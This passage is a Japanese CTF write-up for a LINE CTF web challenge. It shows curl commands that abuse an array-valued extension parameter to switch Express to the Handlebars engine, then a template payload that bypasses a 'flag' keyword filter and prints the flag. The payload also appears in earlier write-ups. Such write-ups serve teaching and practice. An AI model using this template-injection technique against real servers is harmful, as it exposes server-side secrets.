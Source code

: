適当な存在するモジュールの名、例えば `fs` を拡張子にして試してみると、今度は view engine とやらを `fs` モジュールが提供していないというエラーが表示されました。

```
$ curl "http://localhost:8000/$HASH" -H "Content-Type: application/json" -d '{"filename":"hoge","contents":"fuga","ext":[".ejs","a","b",".fs"]}'
{"result":true,"path":"/550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf/hoge"}
$ curl "http://localhost:8000/$HASH/hoge.ejs,a,b,.fs"
Error: Module "fs" does not provide a view engine.
```

問題サーバの環境に存在していて、かつ view engine を提供していそうなモジュールはないでしょうか。`package.json` を眺めていると、`hbs` が見つかりました。[Handlebars](https://handlebarsjs.com/) というテンプレートエンジンがあるようです。

```json
{
  "dependencies": {
    "body-parser": "^1.19.0",
    "ejs": "^3.1.6",
    "express": "^4.17.1",
    "hbs": "^4.1.1",
    "morgan": "^1.10.0"
  }
}
```

本当に Handlebars が使えるか試してみましょう。Handlebars では `{% raw %}{{! comment }}{% endraw %}` のような記法でレンダリング時に無視されるコメントが使えます。これが表示されるかどうか確認します。

試してみると、以下に示すように `ABCDEF` とだけ表示され、無事に Handlebars を使えていることがわかりました。

```
$ curl "http://localhost:8000/$HASH" -H "Content-Type: application/json" -d '{"filename":"comment","contents":"ABC{% raw %}{{! comment }}{% endraw %}DEF\n","ext":[".ejs","a","b",".hbs"]}'
{"result":true,"path":"/550a47c54a2c9d980a7b1ba202bebbbdbe37bd36954424d2c1d5d135bfd9f3cf/comment"}
$ curl "http://localhost:8000/$HASH/comment.ejs,a,b,.hbs"
ABCDEF
```

### フラグを得る
あとは `{% raw %}{{ flag }}{% endraw %}` でフラグを得るだけ…ではありません。フォームの送信時に `contents` に `flag` が含まれていないかどうかチェックされるので、このままでは弾かれてしまいます。

このような状況から思い出されるのは、[Defenit CTF 2020 の BabyJS](2020-06-08-defenit-ctf.html#web-248-babyjs-47-solves) です。BabyJS はこの問題と同じように、`FLAG` という文字列が使えない中で、Handlebars の機能を使って `FLAG` というパラメータを展開させる問題でした。

BabyJS と同じペイロードを試してみましょう。

```
$ curl "http://(省略)/$HASH" -H "Content-Type: application/json" -d '{"file
name":"flag","contents":"{% raw %}{{#each .}}{{#if (lookup . \"toString\")}}{{.}}{{/if}}{{/each}}{% endraw %}\n","ext":[".ejs","a","b",".hbs"]}'
{"result":true,"path":"/(省略)/flag"}
$ curl "http://(省略)/$HASH/flag.ejs,a,b,.hbs"
[object Object]LINECTF{I_think_emilia_is_reallllly_t3nshi}
```

フラグが得られました。

```
LINECTF{I_think_emilia_is_reallllly_t3nshi}
```